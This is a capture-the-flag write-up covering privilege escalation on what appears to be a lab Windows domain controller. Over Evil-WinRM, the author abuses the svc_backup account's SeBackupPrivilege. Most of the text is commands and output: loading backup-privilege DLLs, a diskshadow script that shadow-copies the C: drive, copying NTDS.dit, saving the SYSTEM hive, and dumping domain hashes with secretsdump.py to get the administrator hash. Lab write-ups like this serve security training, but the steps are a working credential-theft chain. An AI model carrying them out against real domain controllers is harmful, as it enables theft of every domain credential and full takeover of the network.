 ```bash


    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt
```
# Privilege Escalation
since teh svc_backup is a memebre of the backup operators group he's gonna have SebackupPrivilege.
```bash
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv


Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
and it's enabled
let's try to leverage this Privilege
```bash
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
As the NTDS.dit file is locked by default, we can use the Windows diskshadow utility to create a shadow copy of the C drive and expose it as E drive. The NTDS.dit in this shadow copy won't be in use by the system.
```bash
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% h:
end backup
exit
```
write this script to a file in the C:\Windows\temp and execute this command 
```bash
diskshadow /s backup
```bash
*Evil-WinRM* PS C:\windows\temp> Copy-FileSeBackupPrivilege h:\Windows\NTDS\ntds.dit C:\windows\temp\ntds.dit

*Evil-WinRM* PS C:\windows\temp> reg save HKLM\SYSTEM SYSTEM.SAV
The operation completed successfully.
```
download NTDS.dit and SYSTEM.SAV to you local machine and dump hashes using secretdump.py
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL        
```
and we got the administrator hash
# PWNED
```bash
```